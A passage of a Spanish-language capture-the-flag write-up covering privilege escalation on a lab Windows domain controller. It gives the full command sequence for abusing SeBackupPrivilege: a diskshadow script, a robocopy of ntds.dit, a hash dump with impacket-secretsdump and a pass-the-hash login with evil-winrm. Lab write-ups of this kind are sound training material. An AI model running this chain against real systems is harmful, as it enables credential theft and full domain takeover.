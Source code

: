 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd C:\Users\Administrator
dir
cd Desktop
dir
type root.txt
whoami /priv
```

No podemos todavia leer el **root.txt**, pero tiene un privilegio muy interesante que es el privilegio **SeBackupPrivilege**.
Teniendo este privilegio, podriamos hacer una copia (backup) de seguridad de elemento del systema como el **NTDS** que nos permitirian
recuperar los hashes de los usuarios del systema, entre ellos el usuario Administrator.

```bash
cd C:\
mkdir Temp
cd Temp
reg save HKLM\system system
```

Aqui hacemos una copia del systema que es necesario para posteriormente dumpear los hashes NTLM del fichero `ntds.dit`. Intentamos copiar 
el fichero `ntds.dit`

```bash
copy C:\Windows\NTDS\ntds.dit ntds.dit
#Output
PermissionDenied!
```

Teniendo este privilegio y siguiendo la guia de la web [pentestlab](https://pentestlab.blog/tag/diskshadow/) podemos tirando de robocopy en vez de
copy, copiarnos este fichero. Creamos un fichero llamado example.txt y le ponemos los comandos siguientes.

```bash
set context persistent nowriters 
add volume c: alias savialias 
create 
expose %savialias% z:
```

> [ ! ] NOTAS: Hay que tener cuidado con estos ficheros que enviamos en maquinas windows de siempre poner un espacio al final de cada linia para evitar problemas

```bash
dos2unix example.txt
```

y desde la maquina victima, subimos el fichero

```bash
upload example.txt
diskshadow.exe /s example.txt
```

Ya podemos ver que en Z:\ hay el mismo contenido que en C:\ y si tratamos de copiar el fichero ntds.dit con el comando `copy z:\Windows\NTDS\ntds.dit ntds.dit` 
nos arastra el mismo error. Pero usando del comando robocopy esto funcciona sin problemas.

```bash
robocopy z:\Windows\NTDS . ntds.dit
download ntds.dit
download system
```

> [ ! ] NOTAS: Si el download no funcciona, siempre podemos tratar de montar un directorio compartido a nivel de red con `impacket-smbfolder`

Ya podemos dumpear el ntds con `impacket-secretsdump`

```bash
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

Ya podemos ver todos los hashes de los usuarios activos del systema.

```bash
crackmapexec winrm 10.10.10.192 -u 'Administrator' -H 194fb5e5179499be6424d4cd53b99e
```

Pwn3d!!!!


```bash
evil-winrm -i 10.10.10.192 -u 'Administrator' -H 194fb5e5179499be6424d4cd53b99e
whoami 
#Output
blackfield\administrator
```

Aqui hemos rooteado la maquina y podemos leer la flag.
